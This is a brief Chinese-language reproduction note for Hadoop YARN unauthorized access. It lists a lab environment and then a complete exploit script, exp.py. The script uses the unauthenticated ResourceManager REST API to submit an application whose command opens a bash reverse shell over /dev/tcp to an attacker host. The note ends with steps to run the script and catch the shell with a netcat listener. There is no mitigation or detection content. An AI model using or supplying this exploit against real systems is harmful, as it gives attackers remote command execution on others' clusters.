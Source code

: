 # Hadoop未授权访问

## 1.环境搭建

+ Ubuntu18，Hadoop2.10.0
+ https://blog.csdn.net/Evankaka/article/details/51612437

## 2.复现

exp.py

```python
import requests

target = 'http://10.251.0.189:8088/'
lhost = '10.251.0.105' # put your local host ip here, and listen at port 9999

url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
        },
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
```

攻击机上执行

> python exp.py

10.251.0.105上执行

> nc -lp 9999